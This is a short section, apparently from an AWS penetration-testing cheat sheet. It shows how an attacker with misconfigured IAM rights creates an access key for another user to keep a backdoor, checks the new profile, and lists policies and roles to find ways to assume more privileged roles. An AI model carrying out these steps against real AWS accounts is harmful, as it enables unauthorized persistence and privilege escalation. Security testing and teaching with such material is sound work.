 ### Persistence & Backdooring
* Suppose we have two users, the user A has permissions to create Access Keys to user B, this misconfig allows us to create an access key for user B and persist our access. 

#### Creating a new acess key for another user

```
aws iam create-access-key --username example_username
```

#### Configuring AWS cli for the new user

```
aws configure --profile example_profile
```

*Remember, an user can have the maximum of 2 access keys*.

#### Testing the credential

```
aws sts get-caller-identity --profile example_profile
```

#### Accessing more credentials
* It's possible to assume other roles with the sts:AssumeRole permission (Example: An user doesn't have access to an s3 instance, but it has this permission, we can easily assume other roles if we are in the trust relashionship, increasing our access in the instance)

##### Listing managed policies attached to an user

```
aws iam list-attached-user-policies --user-name example_name
```

##### Retrieving information about an specific policy

```
aws iam get-policy --policy-arn ARN
```

##### Listing information about the version of the policy

```
aws iam list-policy-versions --policy-arn ARN
```

##### Retrieving information about an specific version

```
aws iam get-policy-version --policy-arn policy_arn --version-id ID
```

##### Listing IAM roles

```
aws iam list-roles
```

